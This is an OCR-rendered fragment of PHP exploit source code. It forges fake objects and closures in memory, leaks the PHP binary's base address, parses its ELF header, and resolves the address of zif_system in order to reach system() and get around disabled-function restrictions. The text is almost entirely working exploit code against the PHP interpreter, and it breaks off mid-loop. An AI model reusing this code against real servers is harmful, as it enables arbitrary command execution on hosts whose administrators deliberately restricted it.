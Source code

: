 ```php
 

  \# fake value

  write($abc, 0x60, 2);

  write($abc, 0x70, 6);

 

  \# fake reference

  write($abc, 0x10, $abc_addr + 0x60);

  write($abc, 0x18, 0xa);

 

  $closure_obj = str2ptr($abc, 0x20);

 

  $binary_leak = leak($closure_handlers, 8);

  if(!($base = get_binary_base($binary_leak))) {

​    die("Couldn't determine binary base address");

  }

 

  if(!($elf = parse_elf($base))) {

​    die("Couldn't parse ELF header");

  }

 

  if(!($basic_funcs = get_basic_funcs($base, $elf))) {

​    die("Couldn't get basic_functions address");

  }

 

  if(!($zif_system = get_system($basic_funcs))) {

​    die("Couldn't get zif_system address");

  }

 

  \# fake closure object

  $fake_obj_offset = 0xd0;

  for($i = 0; $i < 0x110; $i += 8) {

​    write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
```